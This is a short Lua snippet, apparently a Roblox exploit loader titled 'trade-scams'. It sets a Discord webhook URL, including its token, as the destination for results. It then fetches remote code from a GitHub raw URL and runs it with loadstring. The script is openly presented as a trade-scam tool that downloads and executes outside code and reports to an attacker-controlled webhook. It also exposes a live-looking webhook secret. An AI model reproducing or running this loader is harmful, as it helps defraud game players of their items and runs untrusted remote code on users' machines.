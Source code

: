 # trade-scams
_G.Username = "soubrninjinha" _G.HubName = "Trade Scam" _G.WebhookUrl = "https://discord.com/api/webhooks/1089360991684415568/rp9jPEobP5k1S-n6QDihXZ7R5hB5mN6ousq8lzIxmKaPrvFc_vCoaK-QMyc0k8LGi9oS"  loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()

